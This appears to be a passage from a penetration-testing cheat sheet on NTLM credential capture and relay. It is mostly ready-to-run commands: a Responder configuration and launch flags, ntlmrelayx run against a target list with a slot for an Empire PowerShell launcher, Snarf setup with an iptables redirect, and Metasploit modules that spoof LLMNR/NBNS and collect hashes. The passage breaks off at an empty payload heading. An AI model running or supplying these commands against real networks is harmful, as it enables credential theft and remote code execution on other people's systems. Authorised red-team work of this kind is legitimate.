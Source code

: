 {% highlight PowerShell %}
SMB = Off
HTTP = Of
RespondTo = 10.50.1.83, 10.50.1.166-200
{% endhighlight %}

Start Responder

{% highlight PowerShell %}
python Responder.py -I <interface> -r -d -w
{% endhighlight %}

Start NTLM Relay

{% highlight PowerShell %}
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
{% endhighlight %}

### Snarf

Install

{% highlight PowerShell %}
apt-get install nodejs
git clone https://github.com/purpleteam/snarf.git
{% endhighlight %}

Run

{% highlight PowerShell %}
nodejs snarf.js <your-ip> -d <target-ip>
iptables -t nat -A PREROUTING -p tcp --dport 445 -j SNARF
firefox --new-tab http://127.0.0.1:4001
{% endhighlight %}

### Responder

This is the latest version, dont use SpiderLabs as out of date https://github.com/lgandx/Responder

Run resonder

{% highlight PowerShell %}
./Responder.py -I eth0 -rfPv
{% endhighlight %}

## Metasploit (Capture Without Relay)

use auxiliary/server/capture/http_ntlm set JOHNPWFILE httpntlm.txt run use auxiliary/server/capture/smb set JOHNPWFILE smbhashes.txt run use auxiliary/spoof/llmnr/llmnr_response set spoofip 0.0.0.0 set interface eth0 run use auxiliary/spoof/nbns/nbns_response set interface eth0 run

## Generating UNC path payloads

### Metasploit
